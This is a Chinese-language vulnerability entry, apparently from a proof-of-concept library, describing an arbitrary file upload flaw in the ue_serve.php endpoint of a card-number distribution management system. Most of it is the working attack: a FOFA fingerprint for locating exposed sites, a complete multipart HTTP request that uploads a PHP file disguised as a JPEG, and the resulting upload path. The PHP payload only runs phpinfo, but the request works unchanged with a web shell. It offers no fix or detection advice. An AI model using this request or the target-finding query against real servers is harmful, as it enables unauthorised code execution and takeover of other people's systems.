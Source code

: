 # 卡号极团管理系统ue_serve存在任意文件上传漏洞

# 一、漏洞简介
号卡极团分销商城管理系统,同步对接多平台,同步订单信息,支持敢探号一键上架,卡号极团管理系统ue_serve存在任意文件上传漏洞，攻击者可通过该漏洞或服服务器权限。

# 二、影响版本
+ 卡号极团管理系统

# 三、资产测绘
+ fofa`icon_hash="-795291075"`
+ 特征

![1711762130074-1574a63a-86db-476c-88d8-f1d859f412c0.png](./img/vE7SHz5kAueo53Jl/1711762130074-1574a63a-86db-476c-88d8-f1d859f412c0-730376.png)

# 四、漏洞复现
```plain
POST /admin/controller/ue_serve.php?action=image&encode=utf-8 HTTP/2
Host: 
Cookie: PHPSESSID=ecq4ucplk5n6e3ipihvktl103r
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylkv1kpsZgzw2WC03
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 301

------WebKitFormBoundarylkv1kpsZgzw2WC03
Content-Disposition: form-data; name="name"

raw.php
------WebKitFormBoundarylkv1kpsZgzw2WC03
Content-Disposition: form-data; name="upfile"; filename="raw.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarylkv1kpsZgzw2WC03--
```

![1712065231240-c9736a70-517f-4255-8633-f9009bf48946.png](./img/vE7SHz5kAueo53Jl/1712065231240-c9736a70-517f-4255-8633-f9009bf48946-125755.png)

上传文件位置

```plain
/upload/660c0ab3990c5_raw.php
```

![1712065262859-951af1ab-d863-45f4-894b-cea341168ea8.png](./img/vE7SHz5kAueo53Jl/1712065262859-951af1ab-d863-45f4-894b-cea341168ea8-520550.png)



> 更新: 2024-04-20 22:27:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zl0fb1pz9uc16fmg>
